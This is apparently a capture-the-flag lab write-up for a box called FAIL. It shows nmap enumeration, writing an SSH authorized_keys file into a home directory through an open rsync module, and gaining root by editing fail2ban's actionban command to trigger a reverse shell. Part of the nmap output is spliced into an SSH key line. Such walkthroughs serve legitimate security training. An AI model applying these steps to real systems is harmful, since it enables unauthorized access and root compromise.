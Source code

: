 # FAIL

OS: Linux

# NMAP

We Find only two tcp ports open: 22 and 873

Here are the results of the default script and service scan on these ports:

```sh
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74ba2023899262029fe73d3b83d4d96c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 548f79555ab03a695ad5723964fd074e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS                                                                                             
┌──(kali㉿kali)-[~/PGPRACTICE/FAIL/recon/nmap]
└─$ cat sshauth         
# Nmap 7.93 scan initiated Mon Aug 28 17:50:52 2023 as: nmap -p 22 --script ssh-auth-methods -o sshauth -vv 192.168.155.126
Nmap scan report for 192.168.155.126
Host is up, received conn-refused (0.039s latency).
Scanned at 2023-08-28 17:50:52 +08 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
3lzmQmxeyHGg9+xuJA=
|   256 7f5d102762ba75e9bcc84fe27287d4e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
873/tcp open  rsync   syn-ack (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```sh                                                                             
┌──(kali㉿kali)-[~/PGPRACTICE/FAIL/recon/nmap]
└─$ cat sshauth         
# Nmap 7.93 scan initiated Mon Aug 28 17:50:52 2023 as: nmap -p 22 --script ssh-auth-methods -o sshauth -vv 192.168.155.126
Nmap scan report for 192.168.155.126
Host is up, received conn-refused (0.039s latency).
Scanned at 2023-08-28 17:50:52 +08 for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|_    password
```

# Port 873

On port 873 we find an rsync service

> rsync is a utility for efficiently transferring and synchronizing files between a computer and a storage drive and across networked computers by comparing the modification times and sizes of files.

Enumeration:
```sh
                                                                                             
┌──(kali㉿kali)-[~/PGPRACTICE/FAIL/recon/nmap]
└─$ nmap -sV --script "rsync-list-modules" -p 873 192.168.155.126 -vv -oA rsync

```

```sh
PORT    STATE SERVICE REASON  VERSION
873/tcp open  rsync   syn-ack (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home
```

Here we find a module (basicly a directory) named fox. I guess ‘fox home’ is the description. ‘Fox’ might be a username which we can use for bruteforcing.

We can list the shared folder:

```sh
┌──(kali㉿kali)-[~/PGPRACTICE/FAIL/recon/nmap]
└─$ rsync -av --list-only rsync://192.168.155.126/fox      
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 22:21:59 .
lrwxrwxrwx              9 2020/12/04 04:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 12:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 12:12:36 .bashrc
-rw-r--r--            807 2019/04/18 12:12:36 .profile

sent 20 bytes  received 136 bytes  312.00 bytes/sec
total size is 4,562  speedup is 29.24
```

Yes this definitely looks like the contents of a home folder.  With rsync we can upload an authorized keys file to a '.ssh' directory in the home directory                

We generate the ssh keys with:
```sh
ssh-keygen -f key
```

Now we create a directory called ".ssh" in the working directory and copy the contents to a file called authorized_keys:
```sh
cat key.pub > .ssh/authorized_keys
```

We upload the authorized_keys file to the home directory of fox using rsync:
```sh
rsync -av /home/kali/PGPRACTICE/FAIL/.ssh/  rsync://192.168.155.126/fox/.ssh/
```

We can check if the file is uploaded:

```sh
rsync -av --list-only rsync://192.168.155.126/fox/  
```

![](list.png)

Before we try to login we need to change the permission of the private key:

```sh
chmod 600 key
```

No let's login...:

![](local.png)

Yes, it worked!!

# Privilege escalation:

When enumerating the processes we find that fail2ban is running under the root user:

![](f2b.png)

If wee look for vulnerabilites for fail2ban we find a nice way to exploit:

https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49

The vulnerability comes from a misconfiguration of a config file where the privileges are too open.

![](privs.png)

If we can see that the user ‘fox’ is memebr of the ‘fail2ban’ group"

![](id.png)

The users of the fail2bangroup has ‘rwx’ permission in the /etc/fail2ban/action.d' directory.

In the /etc/fail2ban/action.d/ direcoty we find a config file called: iptables-multiport.conf. In this file we can write a rule what to get executed when a user is banned.


![](privsconf.png)

We can make changes to this config file using nano:

![](actionban.png)

We change the value of actionban
> 'command executed when banning an IP'

The only thing we need to do is start a listener and get banned to get a rootshell! (sounds kinda weird.

![](proof.png)





